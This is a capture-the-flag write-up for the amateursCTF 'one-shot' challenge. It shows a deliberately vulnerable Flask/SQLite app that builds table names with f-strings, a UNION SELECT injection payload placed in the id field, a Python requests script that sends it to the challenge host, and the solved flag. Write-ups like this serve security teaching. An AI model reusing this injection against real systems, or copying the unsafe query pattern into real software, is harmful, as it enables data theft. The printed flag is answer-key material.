

# one-shot

> my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! 
>
> http://one-shot.amt.rs

Solution:

We are given with the challenge source and a Dockerfile to test locally.

```python
from flask import Flask, request, make_response
import sqlite3
import os
import re

app = Flask(__name__)
db = sqlite3.connect(":memory:", check_same_thread=False)
flag = open("flag.txt").read()

@app.route("/")
def home():
    return """
    <h1>You have one shot.</h1>
    <form action="/new_session" method="POST"><input type="submit" value="New Session"></form>
    """

@app.route("/new_session", methods=["POST"])
def new_session():
    id = os.urandom(8).hex()
    pwd = os.urandom(16).hex()
    print(f"pwd: {pwd}")
    db.execute(f"CREATE TABLE table_{id} (password TEXT, searched INTEGER)")
    db.execute(f"INSERT INTO table_{id} VALUES ('{pwd}', 0)")
    res = make_response(f"""
    <h2>Fragments scattered... Maybe a search will help?</h2>
    <form action="/search" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="query" value="">
        <input type="submit" value="Find">
    </form>
""")
    res.status = 201

    return res

@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."
    
    db.execute(f"UPDATE table_{id} SET searched = 1")

    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>
"""

@app.route("/guess", methods=["POST"])
def guess():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    print(f"id: {id}")
    result = db.execute(f"SELECT password FROM table_{id} WHERE password = ?", (request.form['password'],)).fetchone()
    if result != None:
        return flag
    
    db.execute(f"DROP TABLE table_{id}")
    return "You failed. <a href='/'>Go back</a>"

@app.errorhandler(500)
def ise(error):
    original = getattr(error, "original_exception", None)
    if type(original) == sqlite3.OperationalError and "no such table" in repr(original):
        return "that table is gone. <a href='/'>Go back</a>"
    return "Internal server error"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

In order to get the flag, we need to call the `/guess` endpoint. Thankfully, we don't have to use the search function since it only sanitized the `password` for the WHERE clause and not the value for the table name.

```
result = db.execute(f"SELECT password FROM table_{id} WHERE password = ?", (request.form['password'],)).fetchone()
```

So we can do a query like:

```
idHere UNION SELECT password from table_idHere 
```

since it will become

```
SELECT password FROM table_idHere UNION SELECT password from table_idHere WHERE password = ?
```

the value of our password can be anything, it won't matter since we will get the password anyways

I decided to create a Python script to automate it.

```python
import requests
import re
from urllib.parse import urlencode

headers = {
    'content-type': 'application/x-www-form-urlencoded'
}

getID = requests.post('http://one-shot.amt.rs/new_session', headers=headers)

# Extract ID
idRegex = r'[1234567890abcdef]{16}'
match = re.search(idRegex, getID.text)
if match:
    id = match.group(0)
    print(f'ID value: {id}')
else:
    print('ID value not found')

formData = {
    'id': f"{id} UNION SELECT password from table_{id} ",
    'password': "meow"
}

data = urlencode(formData)

getFlag = requests.post('http://one-shot.amt.rs/guess', headers=headers, data=data)

print(getFlag.text)
```



Noice!

Flag: `amateursCTF{go_union_select_a_life}`